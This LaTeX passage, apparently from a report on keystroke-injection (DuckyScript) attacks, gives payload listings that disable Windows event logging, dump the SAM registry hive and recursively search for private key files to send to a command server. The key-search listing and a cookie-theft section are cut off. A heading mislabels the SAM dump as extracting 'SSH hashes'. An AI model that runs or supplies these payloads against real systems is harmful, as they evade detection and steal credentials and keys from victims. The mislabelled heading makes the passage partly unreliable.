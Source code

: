 \begin{lstlisting}[caption={Exceprt: disable Windows Event Logging through Powershell}, captionpos=b]
STRINGLN Stop-Service -Name "eventlog"
DELAY 200
STRINGLN Set-Service -Name "eventlog" -StartupType Disabled
DELAY 300
STRINGLN exit
\end{lstlisting}


\subsubsection{Extract SSH hashes}

Hash's associated keys, subkeys, and values make up a hive that can be exfiltrated from the Windows system by storing it in a file and the sending that file to a command server. \\
Once admin privileges on a terminal have been secured, this is a straight forward process. 


 \begin{lstlisting} [caption={Exceprt: extract and SSH files}, captionpos=b]
 STRINGLN reg save HKLM\SAM C:\sam.hiv
 \end{lstlisting}

\subsubsection{Extract Private Key Files}

File extensions can be searched with the help of Powershell. For that reason, this extraction payload will run a simple loop on a predefined (default) path to a directory that is expected to contain private key files and send the discovered files to a command server. 

\begin{lstlisting}[caption={Exceprt: search for private key files by their file extension}, captionpos=b]
DUCKY_LANG DE_CH
DELAY 50
GUI r
DELAY 200
STRINGLN powershell.exe
DELAY 2500
STRINGLN $entryPoint = "your/path"
DELAY 200
STRINGLN $extensions = @(".key", ".pgp", ".gpg", ".ppk", ".p12", ".pem", ".pfx", ".cer", ".p7b", ".asc")
DELAY 200
STRINGLN Get-ChildItem -Path $entryPoint -Recurse | ForEach-Object {
DELAY 200
STRINGLN     if ($_.PSIsContainer) {
DELAY 200
STRINGLN         return
DELAY 200
STRINGLN     }
DELAY 200
STRINGLN     if ($extensions -contains $_.Extension) {
DELAY 200
\end{lstlisting}


\subsubsection{Steal Web Session Cookies}

